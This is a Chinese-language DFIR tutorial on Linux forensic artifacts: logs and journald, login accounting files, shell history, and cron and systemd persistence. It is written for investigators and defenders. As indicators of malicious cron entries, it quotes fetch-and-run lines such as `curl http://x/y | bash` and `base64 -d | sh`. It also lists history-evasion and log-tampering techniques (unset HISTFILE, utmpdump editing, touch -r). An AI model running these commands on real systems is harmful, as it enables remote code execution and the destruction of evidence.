




# 数字取证与事件响应（9）· Linux取证与痕迹分析
> [!abstract] TL;DR
> - Linux 痕迹的物质形态与 Windows 相反：绝大多数是散落 `/var/log` 的**纯文本**，肉眼可读也意味着攻击者肉眼可改，因此方法论核心是「多源印证」加上对少数二进制账目文件（utmp/wtmp/lastlog/journal）的精确解码。
> - 登录痕迹兵分两路：PAM 认证事件走 syslog 落 `auth.log`/`secure`，同时 libc 通过 `pututline` 更新 `wtmp`/`utmp`/`btmp`/`lastlog` 四本二进制账目；两路交叉比对是识别删痕（记录出现「空洞」）的关键。
> - `bash_history` 只是「shell 退出时的一次性快照」，默认**不带时间戳**、内存中的命令未落盘、`unset HISTFILE` 即可绕过——理解写盘时机远比会 grep 重要，活取证要从 `/proc/<pid>` 抢内存历史。
> - cron 与 systemd 既是运维基础设施也是头号持久化点：cron 看四类 spool 与 `run-parts`，systemd 看单元搜索路径优先级与 `*.wants/` 符号链接（「启用」的真正信号），二者共同构成计划执行痕迹面。
> - 取证纪律第一条：ext3/4 镜像必须 `ro,noload` 挂载，否则内核会**重放日志**改写镜像、击穿哈希；日志本身在 root 沦陷后不可全信，需以 journald 密封（FSS）、远程日志、auditd 与包管理指纹交叉兜底。

## 概述与定位

Linux 取证与 Windows 取证在「痕迹的物质形态」上分野明显。Windows 把关键证据封装进二进制黑箱——EVTX 事件日志、注册表 hive、Prefetch/Amcache——你必须先吃透格式才能读懂一个字节；而 Linux 沿袭 UNIX「一切皆文件、配置即文本」的哲学，绝大多数痕迹以纯文本散落在 `/var/log` 与各类 dotfile 中，`grep` 即可读，代价是它们同样对攻击者「肉眼可改」，篡改门槛极低。这条根本差异决定了两套方法论的取向：Windows 侧重解析器与格式对抗，Linux 侧重「多源印证 + 对少数结构化二进制账目文件（utmp/wtmp/lastlog/journal）的精确解码」。理解这一点，你才不会犯「在 Linux 上只会 grep `auth.log`、却读不懂 `last` 背后的字节」这种半吊子错误。

本篇在系列中的位置：承接 [[02.证据保全与取证镜像|02（证据保全与镜像）]] 交付的只读镜像或在线主机，与 [[05.Windows磁盘取证痕迹|05]]–[[08.执行痕迹：Prefetch与Amcache与ShimCache|08]]（Windows 痕迹四件套）形成跨平台对照，向下游 [[11.时间线分析与超级时间线|11（超级时间线）]] 输送逐条带时间戳的事件。我们聚焦 seed 给定的四大支柱——**日志、bash history、cron、systemd**——并补齐使其自洽所必需的支撑痕迹（utmp/wtmp 登录账目、auditd、`/proc` 活取证、SSH 与包管理痕迹）。

边界约定（避免与相邻篇重复）：ext4 inode / 日志区 / 删除恢复的字节级细节留给 [[10.文件系统取证：NTFS与EXT|10]]；plaso 超级时间线的构建方法留给 [[11.时间线分析与超级时间线|11]]；LKM 内核级隐藏与 rootkit 检测留给 [[13.恶意持久化与Rootkit取证|13]]；时间戳伪造等系统性反取证留给 [[14.反取证技术与对抗|14]]。本篇只在「持久化检测」意义上深入 cron/systemd（这恰是 seed 的核心诉求），并在必要处点到即止地引用相邻篇。

一张图先建立全局直觉——**单次 SSH 登录会在主机上「扇出」成多份互相印证的痕迹**，取证的本质就是把这些扇出点重新收拢成一条事件线：



## 原理与机制

要读懂 Linux 痕迹，先要理解「一条日志是怎么产生并落盘的」。Linux 的日志体系由两条独立管线叠加而成，二者的历史包袱与设计取向截然不同。

**第一条是内核管线。** 内核用 `printk` 把消息写进一个固定大小的**环形缓冲区**（ring buffer），`dmesg` 读的就是它，也通过 `/dev/kmsg` 暴露。环形缓冲意味着它「只保留最近」，缓冲满了老消息被覆盖——所以硬件错误、OOM kill、模块加载（`insmod`）这类内核事件如果不被 journald/klogd 及时吸走持久化，重启即失。取证上，`/dev/kmsg` 的时间戳是**单调时钟**（自启动起的秒数），不是墙上时间，换算成 UTC 需要结合启动时刻，这是新手常踩的坑。

**第二条是用户态 syslog 管线。** 应用调用 libc 的 `syslog(3)`，把消息连同一个 `facility`（设施：auth/authpriv/cron/daemon/mail/kern/local0-7…）与 `severity`（严重级：emerg…debug 共 8 级）打进本地 UNIX 域套接字 `/dev/log`。监听这个套接字的守护进程（`rsyslogd`、`syslog-ng` 或 `systemd-journald`）据 `facility`+`severity` 决定「写到哪个文件、是否转发、是否落库」。经典 `rsyslog` 的分流规则写在 `/etc/rsyslog.conf` 与 `/etc/rsyslog.d/*`：`authpriv.*` → `auth.log`（Debian 系）或 `secure`（RHEL 系），`cron.*` → `cron.log`，`*.info` → `messages`。**记住这套映射，你才知道某类事件「本该落在哪个文件」，从而判断某文件被清空是否异常。**

这里有个取证上极其关键的「双写」事实：一次交互式登录，PAM 模块 `pam_unix`/`pam_lastlog` 会**同时**做两件独立的事——一路以 `authpriv` 设施把「Accepted/Failed password」写进 `auth.log`（文本、走 syslog），另一路调用 libc 的 `pututline()`/`updwtmp()` 直接把结构体写进 `wtmp`/`utmp`/`lastlog`（二进制、绕过 syslog）。两条路径物理独立、格式不同、由不同代码写入，因此**攻击者要抹掉一次登录，必须同时处理两边**；只删文本日志、忘了 `wtmp`，或反之，就会留下「一路有、一路无」的不一致——这正是识别删痕的黄金信号。

现代发行版的中枢是 **systemd-journald**。它不再把日志当「一行文本」，而是当「一组键值字段」：每条记录带 `_PID`、`_UID`、`_COMM`、`_SYSTEMD_UNIT`、`_BOOT_ID`、`_HOSTNAME`、`__REALTIME_TIMESTAMP`（写入时的墙上时间）、`_SOURCE_REALTIME_TIMESTAMP`（应用声称的时间）等。存储由 `Storage=` 决定：`volatile` 只写 `/run/log/journal`（内存 tmpfs，重启即失，是许多云主机默认！），`persistent` 才写 `/var/log/journal/<machine-id>/*.journal`（磁盘、跨重启）。**这是 Linux 取证最容易「无声丢证据」的地方**：目标机若未开持久化，你在死盘镜像里根本找不到 journal，只能靠 rsyslog 文本兜底或活取证抢 `/run`。journald 还支持 FSS（Forward Secure Sealing）——用前向安全的密封链周期性给日志盖章，事后即使 root 也无法「静默」篡改历史而不被 `journalctl --verify` 发现，这是本篇后面「加固」小节的重点。



理解了「日志怎么来」，再看它的历史演进，就明白为何今天要同时对付文本与二进制两套体系——这是三十年兼容包袱的结果，取证时新老痕迹并存：



## 痕迹结构与解析详解

这一段深入四大支柱的**磁盘结构与解析原理**——不看代码也能讲清每种痕迹「字节层面长什么样、为什么这么设计、边界与陷阱在哪」。

### utmp / wtmp / btmp / lastlog：登录账目四本账

这四个文件是同一套二进制格式家族，共用 `struct utmp`（`utmp(5)`）。x86-64 glibc 下**每条记录固定 384 字节**，定长、无分隔符，因此可以按 UID 或时间随机寻址。核心字段布局（按语义分组，不必背偏移）：

```text
struct utmp {
  short          ut_type;      // 记录类型：见下
  pid_t          ut_pid;       // 登录进程 PID
  char           ut_line[32];  // 终端设备名，如 pts/0、tty1（去掉 /dev/）
  char           ut_id[4];     // inittab id / 终端后缀
  char           ut_user[32];  // 用户名
  char           ut_host[256]; // 远程主机名/IP（RUN_LVL 时存内核版本）
  struct exit_status ut_exit;  // DEAD_PROCESS 的退出状态
  long           ut_session;   // 会话 ID
  struct timeval ut_tv;        // 记录时间（秒+微秒）
  int32_t        ut_addr_v6[4];// 远端地址，IPv4 只用 [0]
  char           __unused[20];
};
```

`ut_type` 是解读的钥匙：`BOOT_TIME(2)` 标记一次开机（`ut_host` 里放内核版本），`RUN_LVL(1)` 运行级切换，`USER_PROCESS(7)` 一次成功登录会话的建立，`DEAD_PROCESS(8)` 会话结束。**`last` 命令的工作原理**就是把 `wtmp`**从文件尾向前**倒着扫，用 `ut_line`（终端名）把 `USER_PROCESS` 与后来的 `DEAD_PROCESS` **配对**，算出会话时长；如果只有登录没有下线记录，`last` 显示 `still logged in`——若这是历史会话，往往意味着 `wtmp` 被截断或系统异常掉电，本身就是线索。

四本账各司其职，**混淆它们是常见错误**：`/run/utmp` 只记「此刻在线」的会话（`who`、`w` 读它，重启清零，在 `/run` tmpfs 上，死盘取证里通常是空的）；`/var/log/wtmp` 是「历史全量登录/登出/重启流水」（`last` 读它，是时间线主力）；`/var/log/btmp` 只记**失败**登录（`lastb` 读它，SSH 爆破的直接证据，条数暴涨即红旗）；`/var/log/lastlog` 是**按 UID 号做下标**的稀疏文件（记录 N = UID N 的最近一次登录，`lastlog` 命令读它），它的妙处是能一眼看出「某个本不该登录的系统账户（如 `www-data`、`nobody`）竟有登录记录」——那基本等于服务账户被拿来交互登录了。

反取证视角：因为格式定长且开源，`utmpdump` 能把 `wtmp` 导成文本、编辑后再导回二进制，攻击者据此「精确删除某条会话」。但定长记录一旦删除，要么留下**全零空洞**（`ut_type=EMPTY`），要么导致后续记录整体前移、**时间戳不再单调递增**——用脚本校验「相邻记录时间是否倒流」即可发现篡改。这就是为什么取证要亲手解析字节，而不能只信 `last` 的输出。

### bash history：一次性快照，而非实时审计

新手最大的误解是把 `~/.bash_history` 当「命令实时审计日志」。真相是：它只是 **shell 正常退出时，把内存中的历史环形缓冲一次性 flush 到磁盘的快照**。这个机制衍生出一连串取证含义：

- **默认不带时间戳。** 只有设了 `HISTTIMEFORMAT` 环境变量，bash 才会在每条命令前额外写一行 `#<epoch>` 注释行。没设，你就只有命令顺序、没有绝对时间——这是 Linux 命令取证最大的先天缺陷，也是为什么要靠 auditd 补时间维度。
- **内存未落盘。** 攻击者当前这个 shell 里敲的命令还在内存里没写文件；如果他 `kill -9` 掉 shell（而非正常 `exit`），历史根本不落盘。因此**活取证时要抢**：从 `/proc/<pid>/` 找到该 bash 进程，甚至从进程内存里 dump 出未 flush 的历史。
- **可被合法机制关掉。** `unset HISTFILE`、`export HISTSIZE=0`、`ln -sf /dev/null ~/.bash_history`、`export HISTFILE=/dev/null` 都能让历史「合法地」不落盘；`HISTCONTROL=ignorespace` 则让任何以空格开头的命令**不进历史**——这是攻击者最爱的隐身技巧，看到 `HISTCONTROL` 被改本身就可疑。

写盘时机还受 `PROMPT_COMMAND` 与 `history -a` 影响：运维为了「实时留痕」常配置每条命令后 `history -a` 追加落盘，这会显著提升取证价值，看到这种配置要善加利用。别忘了 bash 只是一种 shell——**每种 shell、每个交互程序都有自己的历史文件**，这是一张常被忽略的富矿：`~/.zsh_history`（zsh，格式是 `: <开始时间戳>:<耗时>;<命令>`，天生带时间戳，比 bash 强）、`~/.local/share/fish/fish_history`、`~/.python_history`、`~/.mysql_history`、`~/.rediscli_history`、`~/.psql_history`、`~/.viminfo`（含最近编辑的文件与搜索串）、`~/.lesshst`、`~/.wget-hsts`、`~/.sqlite_history`。攻击者清了 `bash_history` 却忘了 `.mysql_history` 里留着拖库语句，是取证里反复上演的剧情。

### cron：四类 spool 加两套调度器

cron 既是运维刚需，也是最经典的持久化点，seed 把它列为支柱名副其实。它的复杂在于**痕迹分散在多处、格式还不统一**：

- `/etc/crontab` 与 `/etc/cron.d/*`：**系统级** crontab，格式比用户级**多一列「运行身份用户」**（`分 时 日 月 周 用户 命令`）。攻击者常往 `/etc/cron.d/` 丢个不起眼的小文件，因为它比改主 crontab 更隐蔽。
- `/var/spool/cron/`：**每用户** crontab（`crontab -e` 写入的地方）。路径因发行版而异——Debian/Ubuntu 在 `/var/spool/cron/crontabs/<user>`，RHEL/CentOS 在 `/var/spool/cron/<user>`。这些文件的**属主与 mtime** 本身就是证据：`root` 的 spool 被非登录时段修改过，就该追问是谁。
- `/etc/cron.{hourly,daily,weekly,monthly}/`：放**可执行脚本**（不是 crontab 语法），由 `run-parts` 按目录批量执行。持久化者爱把脚本塞进 `cron.daily`，混在一堆系统脚本里。
- `anacron`（`/etc/anacrontab` + `/var/spool/anacron/`）：为「不常开机」的机器补跑错过的任务，靠 spool 目录里的**时间戳文件**记住「上次跑于何日」。以及 `at`/`atd`（`/var/spool/at/`，`atq` 列队列）——一次性延时任务，比 cron 更容易被忽略。

cron 执行本身会记日志：Debian 系落 `/var/log/syslog`（或单独 `cron.log`），RHEL 系落 `/var/log/cron`，格式含 `CRON[pid]: (user) CMD (命令)`。**把「crontab 里写了什么」与「cron 日志里实际跑了什么」交叉比对**，能发现「日志里有执行、但当前 crontab 已无对应条目」——典型的「跑完就删」痕迹。读到 `curl http://x/y | bash`、`base64 -d | sh`、写往 `/tmp`/`/dev/shm` 的条目，基本可判恶意。

### systemd：单元、定时器与 wants 符号链接

systemd 是 cron 在现代发行版的功能替代与超集，也因此成了新的头号持久化面。取证要抓住它的**单元搜索路径优先级**这一核心机制：同名单元按 `/etc/systemd/system/`（管理员，最高）> `/run/systemd/system/`（运行时）> `/usr/lib/systemd/system/`（发行版自带，最低）覆盖。攻击者把恶意 `.service` 放进 `/etc/systemd/system/`，就能**覆盖同名系统服务**而不动发行版原文件——比对这三处同名单元的差异是关键动作。

单元类型里，`.service` 的 `ExecStart=` 指向被执行的二进制（指向 `/tmp`、`/dev/shm`、可疑路径即红旗，`Type=`、`Restart=always` 让后门自愈）；`.timer` 是 cron 的替身，用 `OnCalendar=`/`OnBootSec=` 定时，且 `Persistent=true` 复刻了 anacron「补跑错过任务」的能力，`systemctl list-timers` 一览所有定时器。**最关键的取证信号是「启用」而非「存在」**：一个单元要开机自启，systemd 靠的是在 `<target>.wants/` 目录里建一个**指向单元文件的符号链接**（`systemctl enable` 的实质就是建这个软链）。因此排查持久化时，`/etc/systemd/system/*.wants/` 下**指向可疑单元的符号链接**，比单元文件本身更能说明「它被人为激活了」。

别忘了两类隐蔽变体：**用户单元** `~/.config/systemd/user/` 配合 `loginctl enable-linger`，能让普通用户的服务在其未登录时也常驻，权限低但极易被漏查；以及 `systemd-run` 创建的**瞬态单元**（transient），不落单元文件、只存在于运行时，死盘取证看不到、只能靠 journal 里的 `_SYSTEMD_UNIT` 反查。systemd 的行为审计全在 journal 里：`journalctl _SYSTEMD_UNIT=sshd.service` 能把某服务的全部输出拉出来，这是 systemd 相比 cron 的取证优势。



## 工具视角与实战

**采集阶段——先固定，按易失性排序。** 在线主机遵循 order of volatility：先抓内存与 `/proc`（网络连接 `ss -antp`、进程树、打开文件 `lsof`、内存中的 bash 历史），再抓文本痕迹，最后做磁盘镜像。成熟的一体化脚本能把上述动作打包并**保留原始时间戳**：`UAC`（Unix-like Artifacts Collector）、`LinuxCatScale`、`CyLR`、`FastIR`，以及能远程批量作业的 `Velociraptor`。死盘则要**只读挂载**（下一节详述其陷阱），或直接用 `The Sleuth Kit`（`fls`/`icat`）在镜像上离线遍历，避开挂载副作用。

**日志分析——文本与 journal 两条腿。** 文本侧：`auth.log`/`secure` 里 `grep "Accepted\|Failed\|sudo\|su:"` 抓登录与提权，注意轮转与压缩历史（`zcat auth.log.*.gz`，别只看当前文件漏了上周）。二进制账目侧：`last -f /path/wtmp`、`lastb -f btmp`、`utmpdump wtmp` 导文本细看，或用 Python `struct` 按 384 字节定长自解析（面对被 `utmpdump` 篡改过的文件，自解析更能暴露空洞与时间倒流）。journal 侧：`journalctl` 是主力——`journalctl --file <镜像里的.journal>` 或 `journalctl -D /var/log/journal/<machine-id>` 离线读取镜像内 journal，`-o verbose`/`-o json` 出全字段，`_SYSTEMD_UNIT=`/`_UID=`/`_BOOT_ID=` 做字段级过滤，`--since`/`--until` 卡时间窗，`--list-boots` 列历次启动，`journalctl --verify` 校验 FSS 密封是否被破坏。

**审计侧——用 auditd 补上「谁在何时做了什么」。** 若目标部署了 `auditd`，`/var/log/audit/audit.log` 是弥补 bash history「无时间戳」缺陷的利器：`ausearch -k <规则键> -ts today`、`aureport -x --summary`（按可执行文件统计）、`aureport -au`（认证事件）。auditd 记录 execve、文件访问、网络，且格式结构化带精确时间戳，是 Linux 上最接近 Windows Sysmon 的存在——可惜默认多不开，看到它已开启是取证的幸运。

**一次完整复盘的证据链闭合。** 设想一起「SSH 爆破 → 登录成功 → 装工具 → 种持久化」的入侵，各痕迹如何逐环印证：`btmp` 里某源 IP 的失败登录暴涨 → `auth.log` 出现该 IP 的一条 `Accepted password`（爆破成功点，时间戳即 T0）→ `wtmp` 有对应 `USER_PROCESS` 会话、`lastlog` 更新 → `~/.bash_history`（或 `.mysql_history`）留下敲过的命令 → `/var/log/dpkg.log`/`apt/history.log`（RHEL 看 `yum.log`/`dnf.log` 或 `rpm -qa --last`）记录了攻击者装的工具 → `/etc/cron.d/` 新文件或 `/etc/systemd/system/*.wants/` 新符号链接锁定持久化点。**任何一环缺失或与其它环矛盾（如 `bash_history` 有命令却在 `auth.log` 找不到对应登录），都指向反取证清痕，本身就是重要发现。**

**时间线交接。** 本篇产出的是「一堆带时间戳的离散事件」；把它们与文件系统 MACB 时间戳合成一条**超级时间线**，是 [[11.时间线分析与超级时间线|11]] 的活：`plaso` 框架能同时吃 syslog、journal、utmp、bash_history、audit 并按时间归并（其经典采集器即 `psort`/`log2t` 家族）。本篇只需用 `find / -newerct <T0> -printf '%T+ %p\n'`、`stat`、`debugfs -R "stat <inode>"` 做局部时间锚定，把可疑文件的创建时间钉到入侵窗口内即可。

## 安全性与正确使用

**取证完整性——第一条纪律是「别用你的分析动作污染证据」。** ext3/4 有日志区（journal），内核挂载时会**重放**未提交的日志以保持一致性，这个重放**会写盘**——于是「只是挂载看一眼」就可能改动镜像、让哈希对不上、毁掉法律效力。正确做法：对镜像用 `mount -o ro,noload`（`noload` 明确禁止日志重放），或干脆别挂载、用 The Sleuth Kit 在镜像文件上离线解析；无论如何**挂载前后各算一次哈希**，并全程在写副本、配硬件写保护器上操作。同理，在**在线**主机上取证，你每敲一条命令都在污染 `bash_history`、每次登录都更新 `wtmp`/`utmp`/`lastlog`、`cat` 文件会改 atime——所以在线操作要「最小足迹」：用空格前缀命令（若 `HISTCONTROL` 允许）、优先旁路采集、并如实记录你自己制造了哪些痕迹，以便分析时扣除。

**日志的信任边界——root 沦陷后，本机日志不可全信。** Linux 日志绝大多数是攻击者可写的普通文件，root 权限下可任意增删改。因此取证结论**绝不能建立在单一来源上**，要用相互独立的写入路径交叉印证（前面反复强调的 `auth.log` 与 `wtmp` 双写不一致检测就是范例）。时间戳同样可伪造：`touch -r`、`faketime` 能把文件 mtime 做旧，`utmpdump` 能改会话时间，所以「时间戳自洽性校验」（是否单调、是否落在合理窗口）比时间戳的字面值更可信。

**正确使用与主动加固——把「可被抹除」的痕迹变成「难以抹除」。** 这也是防御方从本篇该带走的工程结论：其一，**日志外送**，`rsyslog @@remote:514`（TLS）或 journal 远程上报，让日志在攻击者够不到的第三方留存——这是对抗清痕最有效的一招。其二，**开启 journald 持久化 + FSS 密封**（`Storage=persistent`、`journalctl --setup-keys`），使事后篡改可被 `--verify` 检出。其三，**部署 auditd** 规则审计 execve/关键文件/提权，补齐命令级、带精确时间戳的审计。其四，**保护 shell 历史**：`chattr +a ~/.bash_history`（只追加、连 root 也不能截断改写）、强制 `HISTTIMEFORMAT` 加时间戳、`PROMPT_COMMAND` 实时 `history -a`。其五，启用进程记账 `psacct/acct`（`lastcomm`、`sa` 可回溯每个执行过的命令）。这些机制的共同思想是**把易失、可篡改的宿主痕迹，冗余到攻击者控制域之外或加上防篡改封条**——纵深防御在取证语境下的具体落地。

**授权与隐私。** shell 历史、`.mysql_history`、`.viminfo` 往往含用户敏感内容乃至凭据，采集与留存要有明确授权、遵循证据保管链（chain of custody）与最小必要原则，这在 [[01.DFIR全景与事件响应流程|01]] 已确立，此处不展开。

## 小结

Linux 取证的骨架是四本账加一条纪律。**日志**分内核环形缓冲与用户态 syslog 两条管线，现代由 journald 统一为结构化二进制、以 `Storage=`/FSS 决定持久性与防篡改；**bash history** 是退出时的一次性快照而非实时审计，默认无时间戳、可被 `unset HISTFILE`/`HISTCONTROL` 合法绕过，活取证要抢 `/proc` 内存并遍历各类 shell/程序历史；**cron** 痕迹散在四类 spool 与 `run-parts`/`anacron`/`at`，靠属主、mtime 与执行日志交叉印证；**systemd** 抓单元搜索路径优先级与 `*.wants/` 符号链接这个「启用」信号，兼顾用户单元与瞬态单元。串起它们的方法论只有一条——**多源印证**：PAM 双写、日志与二进制账目的一致性、命令历史与包管理指纹的呼应，任何一处矛盾都是反取证清痕的破绽。最后是不可动摇的取证纪律：`ro,noload` 挂载防日志重放、全程哈希、最小足迹，并清醒地认识到 root 沦陷后本机日志需靠远程留存、密封与 auditd 交叉兜底才可信。

## 相关阅读

- 系列内：[[00.数字取证与事件响应总览|系列总览]]、[[08.执行痕迹：Prefetch与Amcache与ShimCache|08 · Windows 执行痕迹（跨平台对照）]]、[[10.文件系统取证：NTFS与EXT|10 · 文件系统取证 EXT（inode/时间戳深挖）]]、[[11.时间线分析与超级时间线|11 · 超级时间线（plaso 汇聚本篇产出）]]、[[13.恶意持久化与Rootkit取证|13 · 持久化与 Rootkit（cron/systemd 之上的内核级隐藏）]]、[[14.反取证技术与对抗|14 · 反取证与时间戳篡改]]
- 知识库呼应：[[50.恶意代码分析与免杀对抗/08.持久化技术大全]]、[[50.恶意代码分析与免杀对抗/06.进程注入技术全谱]]、[[72.抓包与协议分析实战/19.网络取证与流重组]]、[[39.固件与IoT嵌入式逆向/22.eMMC与NAND芯片级取证]]、[[38.Windows内核与驱动逆向/11.Rootkit原理与检测]]
- 手册与规范：`man 5 utmp`、`man 5 crontab`、`man 7 systemd.journal-fields`、`man 5 systemd.timer`、`man 8 auditctl`；RFC 3164 / RFC 5424（syslog 协议）；systemd 官方文档 `journald.conf(5)` 与 FSS 说明；SANS FOR577 / FOR508 Linux 取证材料。

[[00.数字取证与事件响应总览|⬆ 系列总览]] | [[08.执行痕迹：Prefetch与Amcache与ShimCache|← 上一章]] | [[10.文件系统取证：NTFS与EXT|→ 下一章]]
